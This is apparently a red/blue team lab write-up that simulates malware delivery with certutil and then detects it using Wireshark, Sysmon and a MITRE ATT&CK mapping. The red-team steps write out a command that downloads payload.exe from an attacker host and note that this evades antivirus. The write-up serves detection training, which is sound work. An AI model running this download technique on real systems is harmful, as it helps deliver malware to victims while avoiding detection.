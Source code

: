# 🛡️ Scenario 1 – Malware Delivery (Ingress Tool Transfer)

## 🎯 Objective
Simulate the delivery of a malicious payload (`payload.exe`) from an attacker machine to a victim endpoint over HTTP, and validate the Blue Team’s detection and monitoring capabilities using network traffic analysis and endpoint telemetry.

---

## 🔴 Red Team Activity

### Steps
1. **Host Malicious Payload on Attacker Machine**:
   - The attacker hosted `payload.exe` on a Kali machine using a simple HTTP server:
     ```bash
     python3 -m http.server 8080
     ```
2. **Download Payload on Victim Machine**:
   - The victim machine downloaded the payload using the built-in Windows utility `certutil`:
     ```bash
     certutil -urlcache -split -f http://192.168.2.129:8080/payload.exe payload.exe
     ```

### Explanation
- The attacker exploited `certutil.exe`, a legitimate Windows tool, to fetch the payload. This is a classic **Living off the Land Binary (LOLBin)** technique, which avoids detection by leveraging native system binaries rather than external download tools that might be blocked or flagged by security software.

### Evidence (Text-Only, No Images)
- **Victim CLI**: Command output showing successful execution of `certutil` to download `payload.exe`.
- **Attacker Terminal**: Kali terminal log indicating a GET request from the victim (optional, based on HTTP server output).

---

## 🔵 Blue Team Detection

### Network Traffic Analysis (Wireshark Capture)
- **Filter Applied**: `http.request`
- **Observed Traffic**:
  ```
  GET /payload.exe HTTP/1.1
  Host: 192.168.2.129:8080
  ```
- **Analysis**: This confirms the victim machine initiated an HTTP request to the attacker’s web server (port 8080) and successfully retrieved `payload.exe`.
- **Evidence (Text-Only, No Images)**: Wireshark log snippet showing the GET request details.

### Endpoint Telemetry (Sysmon Integration)
- **Sysmon Event ID 11 - File Create**: Detects the creation of `payload.exe` on the victim machine.
  - **Relevant Fields**:
    - `TargetFilename`: `C:\path\to\payload.exe` (where the file was saved).
    - `Image`: Process creating the file (e.g., `certutil.exe`).
    - `Computer`: Victim machine hostname.
- **Evidence (Text-Only, No Images)**: Sysmon log entry confirming file creation event.

---

## 🧩 MITRE ATT&CK Mapping

- **Technique**: T1105 – Ingress Tool Transfer
  - **Description**: Adversaries transfer tools or payloads from an external system into a compromised environment.
- **Technique Context**:
  - Delivery method: HTTP over port 8080.
  - Tool used: Native Windows binary `certutil.exe` to minimize detection by traditional antivirus solutions.

---

## 📌 Indicators of Compromise (IOCs)

| Type         | Value                     | Notes                                              |
|--------------|---------------------------|----------------------------------------------------|
| Attacker IP  | 192.168.2.129            | Kali machine hosting the malicious payload         |
| Victim IP    | [Insert your victim IP here] | Windows endpoint fetching the payload             |
| File Name    | payload.exe              | Dropped onto the victim system                    |
| File Hash    | [Insert SHA256 hash here] | Generate with: `Get-FileHash payload.exe -Algorithm SHA256` |

---

## ✅ Summary
In this scenario, the attacker successfully delivered `payload.exe` to the victim machine by exploiting the legitimate `certutil.exe` utility. The Blue Team validated the transfer through:
- Network traffic analysis in Wireshark, identifying the HTTP GET request.
- Endpoint telemetry via Sysmon, logging the file creation event.

This exercise highlights the risk of abusing common Windows binaries for initial malware delivery. Defenders must monitor both network traffic (e.g., unusual HTTP requests) and endpoint activity (e.g., Sysmon file creation) to detect such techniques effectively. Regular updates to detection rules and IOC tracking are critical to mitigate these threats.